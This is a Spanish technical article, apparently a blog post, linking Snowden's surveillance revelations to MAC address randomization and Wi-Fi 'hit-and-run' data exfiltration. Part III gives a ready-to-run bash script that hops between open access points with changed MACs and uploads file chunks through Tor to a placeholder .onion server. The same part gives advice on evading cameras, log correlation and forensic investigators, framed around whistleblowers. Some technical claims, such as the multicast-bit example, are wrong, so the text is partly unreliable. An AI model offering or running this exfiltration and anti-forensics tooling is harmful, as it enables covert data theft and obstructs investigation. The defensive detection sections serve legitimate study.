






## Abstract

Este análisis técnico examina las intersecciones entre la vigilancia masiva revelada por Edward Snowden en "Permanent Record", las técnicas modernas de OpSec (Operations Security), y los vectores de ataque/evasión basados en Wi-Fi. Exploraremos la arquitectura de STELLARWIND y PRISM, las implementaciones y fallas de MAC Address Randomization, técnicas de hit-and-run Wi-Fi piggybacking para exfiltración anónima, y el análisis forense que estas técnicas deben evadir. Este documento está dirigido a profesionales de ciberseguridad, red teamers, y investigadores en privacidad digital.

**Disclaimer:** Este contenido tiene fines puramente educativos e investigativos. Las técnicas descritas pueden ser ilegales en muchas jurisdicciones sin autorización explícita. El autor no asume responsabilidad por el uso indebido de esta información.

---

## Parte I: El Panóptico Digital - Lecciones de Permanent Record

### 1.1 STELLARWIND: Arquitectura de Vigilancia Masiva

Edward Snowden describe en "Permanent Record" cómo STELLARWIND, el programa de vigilancia masiva post-9/11 de la NSA, operaba bajo principios que parecían técnicamente imposibles hasta que él descubrió la infraestructura subyacente durante su tiempo en el "Tunnel" de Hawái.

La arquitectura de STELLARWIND se basaba en tres pilares tecnológicos fundamentales:

**Pillar 1: Upstream Collection**
Intercepción directa del tráfico de internet en los puntos de interconexión de redes troncales (IX Points). La NSA instaló splitters ópticos en instalaciones de telecomunicaciones (caso documentado: Room 641A en AT&T San Francisco) que copiaban todo el tráfico que pasaba por esos nodos. Esto no era intercepción selectiva—era copia literal de cada paquete que atravesaba esos puntos.



**Pillar 2: PRISM - Direct Access to Corporate Infrastructure**
Según los documentos filtrados por Snowden, PRISM permitía acceso directo a los servidores de Microsoft, Google, Facebook, Apple, Yahoo, y otras corporaciones. Esto no requería exploits o vulnerabilidades—era acceso backend autorizado mediante órdenes FISA.

La implicación técnica es devastadora: el cifrado end-to-end entre cliente y servidor de Google es irrelevante si la NSA tiene acceso directo a los servidores backend donde los datos se almacenan descifrados. Tu email cifrado en tránsito está descifrado en los data centers de Google, donde PRISM tenía acceso.

**Pillar 3: XKEYSCORE - Query Engine for Everything**
XKEYSCORE era el motor de búsqueda que Snowden describe como "Google para tráfico de internet de la NSA". Permitía a analistas buscar en bases de datos masivas usando queries arbitrarios:

- "Dame todos los usuarios que visitaron sitio X desde país Y"
- "Dame todos los usuarios que usaron Tor en las últimas 48 horas"
- "Dame todas las comunicaciones que contienen la palabra clave Z"

La potencia computacional requerida para indexar y buscar en exabytes de datos capturados diariamente es asombrosa. Snowden menciona que durante su trabajo en EPICSHELTER (disaster recovery system de la NSA), descubrió que la infraestructura de almacenamiento era órdenes de magnitud más grande de lo que cualquier propósito defensivo legítimo requeriría.


*Diagrama conceptual de cómo STELLARWIND combinaba upstream collection, PRISM, y XKEYSCORE para crear un sistema de vigilancia total.*

### 1.2 Metadatos: El Poder de lo "Insignificante"

Uno de los conceptos más críticos que Snowden enfatiza es la potencia de los metadatos. La NSA defendía sus programas argumentando que "solo recolectamos metadatos, no contenido". Esta afirmación es técnicamente cierta pero profundamente engañosa.

Los metadatos de comunicaciones revelan:
- **Quién** se comunica con quién (análisis de grafo social)
- **Cuándo** y **con qué frecuencia** (patrones temporales)
- **Desde dónde** (geolocalización vía IP, torres celulares, Wi-Fi)
- **Qué tipo de dispositivo** (fingerprinting de User-Agent, OS, hardware)
- **Duración** de comunicaciones (llamadas, sesiones web)

El ex-director de la NSA, Michael Hayden, admitió públicamente: "We kill people based on metadata." No es hipérbole. El programa de drones estadounidense utilizaba análisis de metadatos telefónicos para identificar objetivos—si tu teléfono estaba frecuentemente cerca del teléfono de un sospechoso, eras marcado como asociado.

**Ejemplo técnico de power of metadata:**

Supongamos que la NSA solo tiene estos metadatos de tus comunicaciones (sin contenido):

```
Timestamp: 2026-02-01 09:15:32
Source IP: 198.51.100.45 (tu casa)
Dest IP: 203.0.113.89 (Planned Parenthood clinic website)
Duration: 847 seconds
Protocol: HTTPS (443)
Bytes transferred: 2.3 MB
```

```
Timestamp: 2026-02-01 14:23:17
Source IP: 198.51.100.45
Dest IP: 192.0.2.156 (Abortion rights legal service)
Duration: 1243 seconds
Protocol: HTTPS (443)
Bytes transferred: 874 KB
```

```
Timestamp: 2026-02-03 11:05:09
Cell tower: ID 0x4A2B (near abortion clinic physical address)
Device IMEI: 356938035643809 (tu teléfono)
Duration at location: 3.5 hours
```

Sin leer una sola palabra de contenido, la NSA puede inferir con alta probabilidad que:
1. Estás considerando un aborto
2. Consultaste recursos legales
3. Visitaste físicamente una clínica

Esta es la diferencia entre vigilancia dirigida y vigilancia masiva: no necesitan saber que eres un objetivo específico *antes* de recolectar tus datos. Recolectan TODO, y luego buscan patrones retrospectivamente.

### 1.3 Location Tracking via Wi-Fi: El Caso que Snowden Menciona

Snowden dedica atención especial a cómo los servicios de ubicación modernos funcionan. Google y otras compañías crearon bases de datos globales de Access Points (APs) Wi-Fi mapeados a coordenadas GPS mediante wardriving masivo (Google Street View cars escaneaban Wi-Fi mientras fotografiaban calles).

**El problema de privacidad:**

Tu teléfono, aunque tenga GPS desactivado, continuamente escanea Wi-Fi buscando redes conocidas. Estas probe requests contienen la lista de SSIDs que tu dispositivo "recuerda". Si tu teléfono busca "CasaJuan_WiFi" y "Starbucks_Central", cualquier observador puede:

1. Ver qué redes conoces (inferir dónde vives, trabajas, frecuentas)
2. Triangular tu ubicación actual sin GPS—si ven las APs A, B, C con intensidades X, Y, Z, saben exactamente dónde estás

Esto es lo que Snowden llama "turning your device into a tracking beacon". No es paranoia cuando documentos clasificados de GCHQ (agencia británica) revelan programas como "KARMA POLICE" que hacen exactamente esto—rastrear movimientos de personas mediante scanning pasivo de sus probe requests Wi-Fi.


*Cómo la combinación de SSID probe requests y RSSI (signal strength) permite triangulación precisa sin GPS.*

---

## Parte II: MAC Address Randomization - Teoría vs Realidad

### 2.1 El Problema Fundamental: Identificadores Permanentes

Cada interfaz de red tiene una dirección MAC (Media Access Control) única de 48 bits, asignada por el fabricante. Tradicionalmente, esta dirección es permanente y globalmente única. El formato es:

```
XX:XX:XX:YY:YY:YY
│       │
OUI     NIC-specific
(Vendor)(Dispositivo único)
```

Los primeros 24 bits (OUI - Organizationally Unique Identifier) identifican al fabricante. Los últimos 24 bits son asignados por el fabricante para hacer la dirección globalmente única. Ejemplo:

```
AC:DE:48:00:11:22
│
└─ OUI: AC:DE:48 = TP-Link Technologies Co.
```

**Por qué es un problema de privacidad:**

Si tu laptop con MAC `AC:DE:48:00:11:22` se conecta a:
- Wi-Fi del aeropuerto el lunes
- Starbucks el martes
- Hotel el miércoles
- Conferencia el jueves

Cada uno de esos lugares ahora puede:
1. Rastrearte a través de visitas futuras
2. Vender/compartir esos datos de tracking
3. Correlacionar tu presencia en múltiples lugares

Peor aún: si alguno de esos lugares tiene cámaras con reconocimiento facial, pueden asociar tu MAC con tu identidad física, creando un perfil permanente.

### 2.2 MAC Randomization: Cómo Debería Funcionar

La idea es simple: en lugar de usar tu MAC real al escanear redes o conectarte, usa una MAC aleatoria generada temporalmente.

**Generación de MAC randomizada válida:**

Una MAC válida para randomización debe cumplir:

1. **Bit de Locally Administered (LA) = 1**: El segundo bit del primer octeto debe ser `1`, indicando que no es una dirección asignada por IEEE sino localmente generada.

2. **Bit de Unicast/Multicast = 0**: El primer bit del primer octeto debe ser `0`, indicando que es una dirección unicast (no multicast).

Ejemplo de generación (Python):

```python
import random

def generate_random_mac():
    # Generar 6 octetos aleatorios
    mac = [random.randint(0, 255) for _ in range(6)]

    # Primer octeto: establecer LA bit (bit 1) = 1, U/M bit (bit 0) = 0
    # Binario: 0000 00X0 donde X es el LA bit
    mac[0] = (mac[0] & 0xFE) | 0x02  # Clear bit 0, set bit 1

    # Formato como string
    return ':'.join(f'{b:02x}' for b in mac)

# Ejemplos de MACs generadas:
# 02:ab:cd:ef:12:34  ✓ Válida (02 = 0000 0010, LA=1, U/M=0)
# ca:fe:ba:be:00:01  ✗ Inválida (ca = 1100 1010, LA=1 pero U/M=1, multicast)
```

**Cuándo randomizar:**

- **Android (desde Android 10)**: Randomiza por defecto al escanear y al conectarse a nuevas redes. La MAC randomizada es persistente *por SSID* (misma MAC cada vez que te conectas a "Starbucks_WiFi", pero diferente para "Airport_Public").

- **iOS (desde iOS 14)**: Similar a Android. "Private Wi-Fi Address" por defecto.

- **Windows 10/11**: Randomización durante scanning, pero al conectarse usa la MAC real por defecto (puede habilitarse randomización por red).

- **Linux**: Depende completamente de herramientas como `macchanger` o configuraciones de NetworkManager—no randomiza por defecto.

### 2.3 Ataques que Derrotan MAC Randomization

La investigación académica ha revelado múltiples vectores de ataque que permiten rastrear dispositivos a pesar de la randomización. Estudio clave: Martin et al. (2017) "A Study of MAC Address Randomization in Mobile Devices and When it Fails" demostró que **96% de teléfonos Android pueden ser derrotados**.

**Attack Vector 1: UUID-E Reversal (WPS Flaw)**

Wi-Fi Protected Setup (WPS) incluye en probe requests un campo UUID-E (Universally Unique Identifier - Enrollee) que supuestamente es único por dispositivo. El ataque descubierto por Vanhoef et al.:

El UUID-E se genera mediante: `UUID-E = SHA1(MAC_REAL || "some_salt")`

El problema: el espacio de búsqueda de MACs es solo 2^48 (281 trillones). Con hardware moderno, puedes pre-computar tablas rainbow de UUID-E → MAC en tiempo razonable.

Una vez tienes la tabla:
1. Capturas probe request con MAC randomizada
2. Extraes UUID-E del frame
3. Buscas en tu tabla rainbow → obtienes MAC real
4. Ahora puedes rastrear el dispositivo usando MAC real en lugar de randomizada

**Mitigación:** Deshabilitar WPS completamente. Lamentablemente, muchos dispositivos Android lo tienen habilitado por defecto incluso si nunca usas WPS para conectarte.

**Attack Vector 2: Information Element (IE) Fingerprinting**

Los probe requests 802.11 incluyen Information Elements (IEs) que describen las capacidades del dispositivo:
- Supported rates
- Extended capabilities
- HT (High Throughput) capabilities
- VHT (Very High Throughput) capabilities
- Vendor-specific IEs (marca, modelo)

La combinación y orden de estos IEs es lo suficientemente única que crea un fingerprint identificable. Incluso si cambias tu MAC cada 5 minutos, si tus IEs permanecen iguales, eres rastreable.

Ejemplo de IE fingerprint:

```
Device A probe request:
IEs: [SSID, Rates, Extended Rates, HT Caps, VHT Caps, Vendor(Microsoft)]
Order hash: 0x4A7C2B9D

Device B probe request (diferente MAC pero mismo dispositivo):
IEs: [SSID, Rates, Extended Rates, HT Caps, VHT Caps, Vendor(Microsoft)]
Order hash: 0x4A7C2B9D  ← Mismo hash, mismo dispositivo
```

La investigación de Martin et al. demuestra que este fingerprinting tiene 50-80% de accuracy para rastrear dispositivos por >20 minutos a pesar de cambios de MAC.

**Mitigación:** Requiere modificaciones a nivel de firmware/driver de Wi-Fi para randomizar también los IEs o variar su orden. No hay solución a nivel de usuario.

**Attack Vector 3: Sequence Number Analysis**

Los frames 802.11 incluyen un sequence number de 12 bits que incrementa con cada frame transmitido. Aunque la MAC cambie, si el contador de secuencia continúa incrementando desde donde quedó, es obvio que es el mismo dispositivo.

```
Time 10:00, MAC: AA:BB:CC:DD:EE:FF, Seq: 1023
Time 10:01, MAC: AA:BB:CC:DD:EE:FF, Seq: 1024
[MAC randomization occurs]
Time 10:02, MAC: 11:22:33:44:55:66, Seq: 1025  ← Continúa desde 1024, obviamente mismo dispositivo
```

**Mitigación:** El sequence number debería resetearse a valor aleatorio cada vez que la MAC cambia. iOS hace esto correctamente desde iOS 14. Android es inconsistente según fabricante.

**Attack Vector 4: Timing y Behavioral Fingerprinting**

Incluso si todo lo anterior está perfectamente randomizado, patrones de comportamiento pueden delatarte:

- **Probe request timing**: ¿Cada cuánto tu dispositivo busca redes? Android: cada 60s, iOS: cada 90s, Windows: variable.
- **Preferred Network List (PNL)**: La lista y orden de SSIDs que buscas activamente es única. Si siempre buscas ["CasaJuan", "OficinaXYZ", "GymDowntown"] en ese orden, eres identificable.
- **Power management patterns**: Diferentes chipsets tienen diferentes patrones de power save.

### 2.4 MAC Randomization Agresivo: Solución Práctica

Para máxima protección contra tracking, necesitas MAC randomization *en cada conexión* con resets de todos los identificadores. En Arch Linux con Exegol:

```bash
#!/bin/bash
# aggressive_mac_random.sh - Randomiza MAC antes de cada conexión Wi-Fi

INTERFACE="wlan0"

# Función para generar MAC válida
generate_random_mac() {
    # Generar 5 octetos aleatorios
    mac=$(od -An -N5 -tx1 /dev/urandom | tr -d ' ')
    # Primer octeto con LA=1, U/M=0: 02, 06, 0a, 0e (pattern: 0000 XX10)
    first_octet=$(printf "%02x" $((RANDOM % 4 * 4 + 2)))
    echo "${first_octet}:${mac:0:2}:${mac:2:2}:${mac:4:2}:${mac:6:2}:${mac:8:2}"
}

# Deshabilitar interface
ip link set $INTERFACE down

# Generar y aplicar nueva MAC
NEW_MAC=$(generate_random_mac)
ip link set dev $INTERFACE address $NEW_MAC

# Re-habilitar interface
ip link set $INTERFACE up

echo "[+] Nueva MAC aplicada: $NEW_MAC"

# Flush ARP cache para evitar correlación
ip -s -s neigh flush all

# Resetear hostname para evitar DHCP fingerprinting
hostnamectl set-hostname "android-$(openssl rand -hex 4)"

echo "[+] MAC randomization completa. Conectar a red ahora."
```

Este script debe ejecutarse **antes de cada conexión** a un AP diferente. Automatización con NetworkManager:

```bash
# /etc/NetworkManager/dispatcher.d/01-mac-randomize
#!/bin/bash

if [ "$1" = "wlan0" ] && [ "$2" = "pre-up" ]; then
    /path/to/aggressive_mac_random.sh
fi
```


*Vectores de ataque contra MAC randomization y sus mitigaciones.*

---

## Parte III: Wi-Fi Hit-and-Run: Exfiltración Móvil Anónima

### 3.1 Concepto: Wardriving vs. Active Evasion

**Wardriving** es pasivo: escaneas redes, mapeas APs, pero nunca te conectas. Es legal en la mayoría de jurisdicciones (estás solo escuchando broadcast público).

**Wi-Fi Piggybacking Móvil (Hit-and-Run)** es activo: te conectas brevemente a múltiples APs abiertos mientras te mueves, envías fragmentos de datos, y continúas movimiento. El objetivo es hacer la triangulación forense prácticamente imposible.

**Por qué funciona (en teoría):**

Si un investigador forense quiere rastrearte, necesita:
1. Logs de todos los APs a los que te conectaste
2. Timestamps precisos
3. Correlación de esos logs para recrear tu ruta
4. Video surveillance en cada ubicación para identificarte físicamente

Si usas 20 APs diferentes en 20 cafeterías/tiendas/parques a través de una ciudad, **y** randomizas MAC en cada uno, **y** envías solo fragmentos pequeños desde cada ubicación, la probabilidad de que alguien pueda:
- Obtener todos esos logs (diferentes propietarios, diferentes políticas de retención)
- Correlacionar timestamps
- No tener gaps en la cadena forense

...es extremadamente baja.

**Escenario de uso real:**

Imagina que necesitas exfiltrar documentos sensibles (asumiendo que eres un whistleblower legítimo, no un atacante malicioso). Opciones:

- **Opción A (mala):** Subes desde tu casa → Tu IP te identifica inmediatamente
- **Opción B (mejor):** Vas a un Starbucks público → Cámaras te identifican, logs de Starbucks tienen tu MAC
- **Opción C (óptimo):** Hit-and-run móvil → Conexiones fragmentadas, múltiples ubicaciones, MAC randomizada, sin patrón temporal predecible

### 3.2 Implementación Técnica: Setup Completo

**Hardware requerido:**

1. **Laptop con Kali/Exegol**: ThinkPad X230 es ideal (batería duradera, antena Wi-Fi reemplazable)
2. **Tarjeta Wi-Fi externa con soporte monitor mode**: Alfa AWUS036ACH (chipset Realtek RTL8812AU)
3. **Antena direccional opcional**: Yagi de 14 dBi para conectarte desde mayor distancia
4. **Módem LTE USB** (opcional): Para envío desde redes celulares también
5. **Raspberry Pi** (opcional): Como segundo dispositivo para crear diversión

**Software stack:**

```bash
# Instalar dependencias en Arch/Exegol
sudo pacman -S aircrack-ng macchanger tor proxychains-ng

# Configurar Tor para routing
sudo systemctl start tor

# Verificar que Tor funciona
curl --socks5 127.0.0.1:9050 https://check.torproject.org/api/ip
```

**Script de exfiltración automática:**

```bash
#!/bin/bash
# wifi_hit_and_run.sh - Exfiltración fragmentada mediante múltiples APs

INTERFACE="wlan0"
DATA_FILE="/path/to/exfil_data.tar.gz.gpg"
UPLOAD_SERVER="http://your-onion-service.onion/upload"
CHUNK_SIZE=512  # KB por ubicación

# Array de APs abiertos pre-escaneados (desde wardriving previo)
declare -a OPEN_APS=(
    "Starbucks_Guest"
    "McDonalds_Free_WiFi"
    "Public_Library_Guest"
    "Airport_Public"
    # ... etc
)

# Dividir archivo en chunks
split -b ${CHUNK_SIZE}K "$DATA_FILE" /tmp/chunk_

CHUNKS=(/tmp/chunk_*)
TOTAL_CHUNKS=${#CHUNKS[@]}

echo "[+] Total chunks a exfiltrar: $TOTAL_CHUNKS"
echo "[+] APs disponibles: ${#OPEN_APS[@]}"

for i in "${!CHUNKS[@]}"; do
    CHUNK="${CHUNKS[$i]}"
    AP="${OPEN_APS[$((RANDOM % ${#OPEN_APS[@]}))]}"  # AP aleatorio

    echo "[*] Chunk $((i+1))/$TOTAL_CHUNKS - Conectando a: $AP"

    # Randomizar MAC
    sudo macchanger -r $INTERFACE

    # Conectar al AP (usando nmcli o wpa_supplicant)
    nmcli device wifi connect "$AP" 2>/dev/null

    # Esperar conexión
    sleep 5

    # Verificar conectividad
    if ping -c 1 -W 2 8.8.8.8 &>/dev/null; then
        echo "[+] Conectado. Subiendo chunk..."

        # Upload vía Tor
        proxychains curl -X POST \
            --max-time 60 \
            -F "file=@$CHUNK" \
            "$UPLOAD_SERVER" 2>/dev/null

        if [ $? -eq 0 ]; then
            echo "[+] Chunk subido exitosamente"
            rm "$CHUNK"  # Borrar chunk subido
        else
            echo "[-] Fallo en upload. Reintentando en siguiente AP..."
        fi
    else
        echo "[-] Sin conectividad en $AP"
    fi

    # Desconectar
    nmcli device disconnect $INTERFACE

    # Delay aleatorio entre conexiones (anti-pattern)
    DELAY=$((RANDOM % 300 + 120))  # 2-7 minutos
    echo "[*] Esperando ${DELAY}s antes de siguiente conexión..."
    sleep $DELAY
done

echo "[+] Exfiltración completa. Limpiando..."
shred -vfz /tmp/chunk_* 2>/dev/null
```

**Mejoras OpSec:**

1. **Cifrado de chunks**: Cada chunk debe estar cifrado con GPG antes de subir.
2. **Onion service destino**: El servidor receptor debe ser un .onion service de Tor, no clearnet.
3. **Deniable encryption**: Usar VeraCrypt con volúmenes ocultos.
4. **Anti-forensics**: Ejecutar desde RAM disk (tmpfs), nunca escribir a disco.

### 3.3 Problemas de Implementación y Contramedidas

**Problema 1: Cámaras de Vigilancia**

Solución imperfecta: Selecciona ubicaciones sin línea de vista directa a cámaras. Parques públicos, áreas rurales con Wi-Fi de negocios cercanos, estacionamientos.

Uso de antena direccional te permite conectarte desde mayor distancia—Yagi de 14dBi puede capturar señal hasta 1-2km con line-of-sight. Te conectas desde un punto remoto donde no hay cámaras apuntando.

**Problema 2: Captive Portals**

Muchos Wi-Fi públicos requieren autenticación vía portal web. Esto rompe automatización.

Solución: Pre-escanear y filtrar solo APs verdaderamente abiertos (sin captive portal). Script de validación:

```bash
#!/bin/bash
# validate_open_ap.sh - Verifica si AP es realmente abierto (sin captive portal)

AP_SSID="$1"

# Conectar
nmcli device wifi connect "$AP_SSID"
sleep 5

# Intentar HTTP request a servidor conocido
RESPONSE=$(curl -s -L --max-time 10 -w "%{http_code}" http://www.google.com)

if echo "$RESPONSE" | grep -q "302\|301"; then
    echo "[-] $AP_SSID tiene captive portal"
    exit 1
elif echo "$RESPONSE" | grep -q "200"; then
    echo "[+] $AP_SSID es verdaderamente abierto"
    exit 0
else
    echo "[?] $AP_SSID estado desconocido: $RESPONSE"
    exit 2
fi
```

**Problema 3: Correlación Temporal y Geográfica**

Si subes chunks a las 10:00, 10:15, 10:30 desde ubicaciones A, B, C que están a 5km de distancia cada una, un investigador puede:
1. Mapear esas ubicaciones
2. Calcular velocidad de movimiento (10 km / 30 min = 20 km/h → automóvil)
3. Revisar traffic cameras en rutas entre A→B→C
4. Identificarte

Contramedida:
- Delays aleatorios largos entre conexiones (hours, not minutes)
- Rutas impredecibles (no lineales)
- Mixing: envía chunks fuera de orden secuencial

**Problema 4: Probe Requests Pasivos**

Incluso si solo te conectas activamente en ubicaciones seleccionadas, tu dispositivo **pasivamente** envía probe requests constantemente mientras conduces, revelando tu ruta completa.

Contramedida:
```bash
# Deshabilitar scanning automático
nmcli radio wifi off

# Habilitar solo cuando necesitas conectar
nmcli radio wifi on
nmcli device wifi connect "target_ap"
# ... exfil ...
nmcli radio wifi off
```


*Flujo completo de una operación hit-and-run con contramedidas OpSec.*

### 3.4 Análisis Forense: Perspectiva del Defensor

Desde el lado del blue team, ¿cómo detectarías/rastrearías este ataque?

**Detection Vector 1: Anomaly in Connection Patterns**

Logs de AP normalmente muestran:
- Dispositivos que se conectan regularmente (clientes habituales)
- Dispositivos que se conectan por períodos largos (trabajadores remotos)

Un dispositivo que:
- Se conecta por 30-120 segundos
- Transfiere exactamente 512 KB
- Nunca regresa
- MAC es random (LAA bit set)

...es claramente anómalo.

**Detection Vector 2: Honeypot APs**

Desplegar APs falsos que aparentan ser legítimos:
```
SSID: "Starbucks_Free_WiFi"
Open: Yes
DHCP: Yes
Pero: Todo el tráfico es logged y analizad
```

Si el atacante se conecta, tienes:
- MAC (aunque randomizada)
- DHCP fingerprint (modelo de dispositivo vía opciones DHCP)
- HTTP User-Agent si hace peticiones
- Posiblemente geolocalización del AP honeypot

**Detection Vector 3: Colaboración Entre Operadores de AP**

Si múltiples negocios/instituciones comparten logs de conexiones sospechosas, pueden correlacionar:

```sql
-- Query de ejemplo buscando patrón hit-and-run
SELECT * FROM wifi_connections
WHERE connection_duration < 180  -- menos de 3 minutos
  AND data_transferred > 100000  -- más de 100 KB
  AND mac_address LIKE '_2:%:%:%:%:%'  -- LAA bit set (randomizado)
  AND ssid IN ('Starbucks_Guest', 'McDonalds_WiFi', 'Library_Public')
  AND timestamp BETWEEN '2026-02-08 09:00:00' AND '2026-02-08 15:00:00';
```

Si encuentran correlación entre múltiples APs, pueden triangular ruta aproximada.

**Contramedida para el atacante:**

No uses APs de cadenas grandes que probablemente comparten logs centralizados. Usa:
- Pequeños negocios independientes
- Redes domésticas abiertas (menos probable que guarden logs)
- Instituciones públicas (bibliotecas, universidades) donde alta rotación de usuarios es normal

---

## Parte IV: Capas Adicionales de OpSec

### 4.1 Fingerprinting de DHCP: El Identificador Olvidado

Cuando te conectas a un Wi-Fi, tu dispositivo hace DHCP request para obtener IP. Ese request incluye "DHCP Option 55" que lista las opciones que tu cliente solicita. Ejemplo:

```
DHCP Discover from AA:BB:CC:DD:EE:FF
Option 55 (Parameter Request List): [1, 3, 6, 15, 26, 28, 51, 58, 59]
Hostname: "android-<random>"
```

El orden y valores de Option 55 son específicos por OS y versión:

- **Windows 10**: `[1, 15, 3, 6, 44, 46, 47, 31, 33, 121, 249, 43]`
- **iOS 14**: `[1, 3, 6, 15, 119, 252]`
- **Android 11**: `[1, 3, 6, 15, 26, 28, 51, 58, 59, 43]`

Incluso con MAC randomizada, si tu DHCP fingerprint es `[1, 3, 6, 15, 26, 28, 51, 58, 59, 43]`, el defensor sabe que eres Android.

Peor: combinando DHCP fingerprint + IE fingerprint + behavioral patterns, pueden identificarte con ~90% accuracy.

**Mitigación:**

Requiere modificar cliente DHCP. En Linux con `dhclient`:

```bash
# /etc/dhcp/dhclient.conf

# Randomize hostname
send host-name = gethostname();

# Manipular Parameter Request List (request solo opciones básicas)
request subnet-mask, broadcast-address, time-offset, routers,
        domain-name, domain-name-servers;
```

